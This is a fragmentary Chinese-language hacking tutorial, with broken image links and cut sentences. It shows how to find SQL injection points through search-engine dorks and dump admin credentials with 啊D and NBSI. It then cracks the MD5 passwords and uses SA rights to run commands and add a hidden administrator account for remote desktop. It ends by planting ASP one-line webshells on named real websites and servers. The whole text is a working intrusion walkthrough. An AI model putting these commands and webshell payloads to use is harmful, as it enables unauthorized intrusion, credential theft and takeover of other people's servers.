

图2

根据上述页面现象还不能完全确认漏洞，可继续在地址后添加“and 1=1”（通常返回正常）与“and 1=2”（通常返回异常）进行布尔判断：前者条件为真，后者条件为假，由返回差异进一步验证注入点。

FALSE，导致 AND 运算后也为 FALSE，所以就错误执行了。

自动进入“SQL 注入检测”页面，点击“检测”按钮后就会自动检测了，稍等一会儿，啊D便检测出此网站使用的是 ACCESS 数据库。







现在就可以确定这个页面存在 SQL 注入漏洞了，那么如何通过这个 SQL 注入漏洞来获得网站的敏感信息呢？当然是通过工具了！省事省力，速度还快。

### 一、啊D来注入 ACCESS 数据库

既然知道了如何判断一个页面是否存在 SQL 注入漏洞，那么如何大批量地扫描各个网站呢？难道要手工进行吗？我们可以依靠啊D注入工具。啊D注入工具在扫描注入点和注入 ACCESS 数据库方面是比较出色的。打开啊D注入工具，点击“扫描注入点”，然后进入扫描页面（图6）。

在检测网址栏中输入“http://www.baidu.com/gaoji/advanced.html”，在搜索输入框中输入“inurl:showdetail.asp?id=”，其意即在百度中搜索 URL 地址中存在“showdetail.asp?id=”的地址。为什么要搜索这个地址呢？因为经过我的研究调查，发现这个 showdetail.asp 大部分都存在 SQL 注入漏洞（图7）。

现在工具已经自动扫描到了 26 条 SQL 注入漏洞了，随便选择一条存在 SQL 注入漏洞的 URL 地址，然后双击，啊D就会。




点击“检测表段”就会自动检测此 ACCESS 数据库中的数据表名，结果检测出了一个名字为“admin”的数据表，很显然这里面肯定存储着管理员的相关信息。紧接着点击“检测字段”就会自动检测 admin 数据表中的相关字段，结果检测出了好几个与用户名、密码相关的字段。然后我们选择想要检测的字段名，点击“检测内容”就会自动进行内容的检测了，再稍等一会儿，终于检测出了用户名和密码，帐号为“admin”，密码为“7a57a5a743894a0e”（图8）。

检测出用户名和密码后要怎么用呢？当然是从后台登录页面进入了……便可以打开管理后台的登录地址了（图9）。


图9

填写好检测出来的用户名和密码是不是进不去啊？当然进不去了，因为那个密码并不是真正的密码，而是经过 MD5 加密过的密码……对于暴力破解只能靠运气了（图10）。


图10

另一种是进行在线查询，其原理是 MD5 在线查询网站都存储着 N 多的 MD5 和真值对应关系……最多 5 秒就会将其值“破解”出来了。

需要网站的数据库中必须存储着这个 MD5 数据才行（图11）。


图11

经过破解和查询，“7a57a5a743894a0e”这个 MD5 的真值为“admin”，那么用户名和密码都为“admin”……终于进入了网站的后台管理平台（图12）。


图12

### 小知识：什么是MD5？

所谓 MD5，即“Message-Digest Algorithm 5（信息-摘要算法）”……关键之处在于这种“压缩”是不可逆的。

### 二、NBSI来注入SA权限

NBSI 是老牌的 SQL 注入工具，特别是针对使用 MSSQL 数据库的 SQL 注入……我们将利用啊D注入工具扫描到的 MSSQL 注入点，挪到 NBSI 里就可以最大发挥啊D和 NBSI 的优势功能了。

打开 NBSI，将 MSSQL 注入点填入“注入地址”中，点击“检测”按钮就可以进行漏洞信息的检测了……

盘的文件，就输入“C:\”，然后点击“列目录”就可以了（图14），我们可以利用这个一点点地查找服务器中有用的数据。

便是文本文件上传。先通过“浏览”在本地计算机中选择一个文本文件；再填写上要在远程服务器中保存的路径，选择保存类型，最后点击“上传”即可（图16）。




再来尝试一下 NBSI 的命令执行功能，这个功能可以在服务器上执行一些系统命令。由于这个注入点是 SA 权限的，因此执行的权限也就是最高，相当于服务器系统权限啦！点击下面的“NB_Commander”选项，在“命令文本”栏输入想要执行的系统命令，比如我想使用“systeminfo”命令查看服务器的系统环境信息，那么就输入“systeminfo”，然后点击“执行”就可以了（图15）。

在使用 NBSI 针对 SQL 注入漏洞检测的时候，会遇到手工检测可以查出来，而使用 NBSI 却检测不出来的情况。比如在图2中我们已经检测出了“http://bzwater.gov.cn/article/Article_Print.asp?ArticleID=3838”这个地址存在 SQL 注入漏洞，但是在 NBSI 里却死活检测不到（图17），出现了“暂未检测到注入漏洞”。





最后再来尝试一下 NBSI 的上传功能，这个功能可以通过 WEB 将一些小文本文件提交到服务器上（大文本文件会出错的）。点击下面的“NB_Commander”选项，在命令执行的右边，这时候就郁闷了，工具让我们输入特征字符。特征字符是用来干什么的呢？它是用来区分正常页面和错误页面的特征，就是寻找它们之间的不同之处。可以先打开正常的页面，然后再打开出错的页面，对比它们之间的不同。比如通过图4和图5就可以看到，IE 的标题栏不同，那么我们就把标题栏中的“邹平县”作为特征字符填写到 NBSI 的特征字符框中，然后再点击。“再检测”按钮，就可以让工具使用“ASCII 码半拆法”进行猜解，然后再对表名、列名进行相应的猜解即可（图18）。

尝试完这些新功能后，我们就得考虑如何拿下这个网站，更确切地说是考虑如何拿下这个服务器！利用 NBSI 的命令执行功能执行 `net start` 命令，发现服务器开启了“Terminal Services”服务，也就是 3389 终端服务（图19）。

但是当我们使用远程桌面进行连接时却发现连接不上，这是为什么呢？看来是服务器管理员将终端服务的默认端口 3389 更改了，那么要怎么看呢？再次执行 `netstat -an` 查看当前服务器所开放的连接端口（图20）。

出现了连接界面，但是现在我们还没有登录账号和密码，要怎么办呢？既然我们有最高的权限，那就给自己添加个账号吧。分别执行 `net user casper 1314521 /add`（添加一个名为 casper、密码为 1314521 的账号）和 `net localgroup administrators casper /add`（将刚才建立的 casper 账号添加到管理员组），命令执行完毕后，我们重试在远程桌面中输入“www.helper24.com:3800”或者“221.10.50.85:3800”都可以连接到服务器，输入刚才建立的账号就可以连接进入服务器了（图21）。



图19

## 三、啊D来注入 DB_OWNER 权限

对于 SA 权限的注入点是非常好入侵的，但是这在注入的过程中不会太多，出现比较多的则是 DB_OWNER 权限，它的意思就是数据库的拥有者。既然是拥有，当然是对数据库的所有权限，比如添加、删除、修改、创建表、索引等都是有的。DB_OWNER 是一个数据库的角色，不是一个用户（图22）。

在一般情况下 DB_OWNER 权限是可以列目录的，我们打开啊D中的“目录查看”功能，在“检测位置”中输入“D:\”，就会针对 D 盘的根目录进行检测。为什么要从 D 盘开始检测呢？这是因为一般情况下，管理员会把网站文件放在 C 盘下。那么要怎样快速地检测网站文件所在的绝对路径呢？

- 需要长期的入侵经验；
- 针对网站知己知彼。

只有这样才能快速地获得网站文件的绝对目录。通过长时间（5 分钟）的检测，发现此网站文件所在的绝对路径为“D:\Web\a4tech”（图23），而且还发现这个网站似乎是双飞燕的全球网站！看看你的鼠标，是不是双飞燕的呢？



图20



图22


图21


图23

我发现那个 3800 端口很可疑，当使用远程桌面连接时终于找到网站的绝对路径后又该怎么做呢？`DB_OWNER` 权限一般是可以备份数据库的；可以将数据库备份到文件中。我们正是利用这点将一句话木马插入到数据库中，然后再将数据库备份到网站绝对路径下的 ASP 文件中，这样一个 webshell 就产生了。

打开 zj1244 小菜编写的“备份数据库利用工具”，利用这个工具我们可以简单地实现针对 `DB_OWNER` 权限下的差异备份和日志备份功能。在地址栏填写上述注入点的地址，默认情况下工具会以数字型的注入点进行备份，如果注入点是字符型的就要勾选上“字符型”哦。怎么确定注入点是数字型还是字符型呢？这个可以在图22啊D检测的结果中看到。在备份类型处可以选择差异备份和日志备份，这里我选择的是“差异备份”。在代码处填写一句话木马的代码，我填写的是 ASP 后门服务端代码 `<%execute(request("cmd"))%>`。在路径处填写想要备份到网站绝对路径的哪个文件中，我填写的是 `D:\Web\a4tech\jj.asp`，最后直接点击“发送”就可以了，稍等一会儿工具就会将备份工作完成，并弹出一个发送完毕的提示框（图24）。



稍等一会儿我们再访问一句话木马，因为备份出来的数据库通常比较大，所以要等待一会儿（几分钟即可）。但是在 IE 中直接打开一句话木马的时候出现了一个网站，我当时就郁闷了，反复测试了好几次才发现这个网站已经被别人入侵过了，数据库中被写入跳转到了 `http://turkforces.com/hacked.html`。通过查看 jj.asp 的源文件发现了如下代码 `<meta http-equiv=refresh content='0;URL=http://turkforces.com/hacked.html'>`（图25），此代码的意思就是当打开此网站的时候直接跳转到 `http://turkforces.com/hacked.html` 的网址上。


要怎么解决呢？我冥思苦想了 5 分钟，发现跳转是在执行完 ASP 代码后进行的，那么先执行一个不需要回显的控制命令就可以了，执行什么呢？我突然想起来可以通过一句话木马再写一个一句话木马上去。

打开“Lanker 微型 PHP+ASP 管理器”，此工具可以作为控制端管理 ASP 和 PHP 的一句话木马。在木马地址处填写刚才备份得到的一句话木马 URL 地址，然后再将一句话木马的连接密码填写上。在左侧功能区选择“创建文件”，此处我填写的是 `D:\Web\a4tech\cc.asp`，在文件内容处填写 ASP 后门服务端代码 `<%execute(request("cmd"))%>`，点击提交即可（图26）。

